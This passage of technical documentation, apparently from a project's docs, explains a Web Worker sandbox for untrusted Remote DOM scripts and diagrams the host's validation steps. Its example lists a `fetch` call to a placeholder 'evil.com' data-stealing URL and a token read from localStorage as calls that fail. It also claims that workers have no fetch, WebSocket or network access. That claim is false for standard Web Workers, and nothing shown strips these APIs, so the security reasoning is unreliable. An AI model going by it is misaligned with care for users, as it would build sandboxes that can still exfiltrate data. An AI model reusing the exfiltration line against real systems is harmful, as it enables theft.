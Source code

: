 They can ONLY:
- Execute pure JavaScript
- Send/receive messages via `postMessage`
- Use basic APIs (`console`, `setTimeout`, math operations)

### Why Web Workers for Remote DOM?

**Security Benefits:**

1. **No DOM Access:**
```javascript
// Inside Web Worker - ALL of these fail:
document.querySelector('.sensitive-data'); // Error: document is not defined
window.parent.location.href;              // Error: window.parent is undefined
localStorage.getItem('token');             // Error: localStorage is not defined
fetch('https://evil.com/steal-data');     // Error: fetch is not defined
```

2. **No Network Access:**
```javascript
// Cannot make HTTP requests
// Cannot connect to WebSockets
// Cannot send data anywhere
```

3. **Pure Computation Only:**
```javascript
// Can only create virtual DOM and send messages:
const div = remoteDOM.createElement('div'); // ✅ Safe
remoteDOM.callHost('action', { data }); // ✅ Controlled communication
```

---

### Remote DOM Security Model

**How It Works:**

```
┌──────────────────────────────────────────────────────────┐
│ Web Worker (Untrusted Code)                             │
│                                                          │
│  User Script:                                            │
│  ┌────────────────────────────────────────────────────┐ │
│  │ const btn = remoteDOM.createElement('button');     │ │
│  │ remoteDOM.setTextContent(btn, 'Click Me');        │ │
│  │ remoteDOM.addEventListener(btn, 'click', () => {  │ │
│  │   remoteDOM.callHost('notify', { msg: 'Hi!' }); │ │
│  │ });                                               │ │
│  └────────────────────────────────────────────────────┘ │
│                          ↓                               │
│                    postMessage                           │
│              (DOM operation messages)                    │
└──────────────────────────────────────────────────────────┘
                           ↓
┌──────────────────────────────────────────────────────────┐
│ Host Receiver (Trusted Code)                            │
│                                                          │
│  1. Validate operation type                             │
│  2. Validate component name (whitelist)                 │
│  3. Sanitize attributes                                 │
│  4. Update virtual DOM                                  │
│  5. Render React components                             │
└──────────────────────────────────────────────────────────┘
```
